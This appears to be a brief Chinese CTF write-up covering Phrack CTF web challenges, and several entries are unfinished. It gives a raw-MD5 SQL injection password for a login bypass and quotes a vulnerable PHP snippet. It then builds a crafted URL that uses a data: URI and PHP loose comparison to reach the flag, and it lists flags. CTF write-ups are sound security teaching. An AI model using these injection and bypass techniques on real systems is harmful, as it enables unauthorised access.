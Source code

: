 # Phrack CTF WEB

1. PORT51
    > Please use port 51 to visit this site.

    - 至今没有思路

2. LOCALHOST

3. Login
    - [SQL injection with raw MD5 hashes](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
    - password 129581926211651571912466741651878684928  or 1839431
    - `PCTF{R4w_md5_is_d4ng3rous}`

4. 神盾局的秘密

5. IN A Mess

    > 连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。

    - 页面内容`work harder!harder!harder!`
    - 查看源代码，发现只有一行：`<!--index.phps-->work harder!harder!harder!`。 **仔细** 观察，发现`index.phps`是什么鬼东西，遂打开看看。
    - 得到代码如下：
        ```
        if(!$_GET['id'])
        {
            header('Location: index.php?id=1');
            exit();
        }
        $id=$_GET['id'];
        $a=$_GET['a'];
        $b=$_GET['b'];
        if(stripos($a,'.'))
        {
            echo 'Hahahahahaha';
            return ;
        }
        $data = @file_get_contents($a,'r');
        if ($data=="1112 is a nice lab!" and
            $id==0 and
            strlen($b)>5 and
            eregi("111".substr($b,0,1),"1114") and
            substr($b,0,1)!=4)
        {
            require("flag.txt");
        }
        else
        {
            print "work harder!harder!harder!";
        }
        ```
    - 通过代码可以得知，如果我们想要得到`flag.txt`则需要以下满足~~四~~五个条件：
        1. `$data=="1112 is a nice lab!"`，其中`$data = @file_get_contents($a,'r')`
        2. `$id==0`
        3. `strlen($b)>5`
        4. `eregi("111".substr($b,0,1),"1114")`
        5. `substr($b,0,1)!=4`
    - 所以构造出可以获得flag的连接：`index.php?id=0 & a=data:text/plain,1112%20is%20a%20nice%20lab! & b=......`
    - `index.php?id=0a&a=data:text/plain,1112%20is%20a%20nice%20lab!&b=.whaterever`

6. RE?
